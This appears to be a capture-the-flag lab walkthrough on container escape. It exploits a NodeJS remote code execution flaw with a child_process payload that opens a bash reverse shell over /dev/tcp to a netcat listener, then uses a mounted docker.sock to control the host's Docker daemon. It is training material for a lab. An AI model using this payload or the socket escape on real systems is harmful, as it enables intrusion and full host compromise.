







# Attacking insecure volume mounts

In this scenario we will be exploiting a NodeJS application using remote code execution to gain a reverse shell. Then we will use the volume mounted `docker.sock` to gain privileges in the host system with docker runtime.

* The application is running at CTF VM. You can access it by navigating to `http://CTFVMIP`



* This NodeJS application is vulnerable to remote code execution (RCE) in `q` GET parameter. Access the endpoint using `http://CTFVMIP/?q="docker"`



* To exploit this RCE, we will be using below payload. Here `192.168.56.3` need to replace with your student VM IP

```bash
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
```

* Start the netcat listener on `student` machine to get the reverse shell

```bash
nc -lvp 5555
```



* To exploit and get reverse shell use the below URL. It contains the payload to connect back to student vm. Ensure that you have replaced `192.168.56.3` with your student VM IP

```bash
http://CTFVMIP?q=require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
```



* Now we will receive the reverse shell in our student vm where we listening via `nc`



* Now, we have shell inside the docker container, we can explore the container for post exploitation

* We can see that `ls -l /var/run/docker.sock` is available and mounted from the host system.



> **This allows attacker to access the host docker service using host option with docker client by using the UNIX socket**

* The docker client is already downloaded into the container and is at `/root/docker`

```bash
cd /root/docker/
ls -l
```


* To access the host resource using the `docker.sock` UNIX socket. Run the following

```bash
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```



* Now, we have full privilege over the host system :)
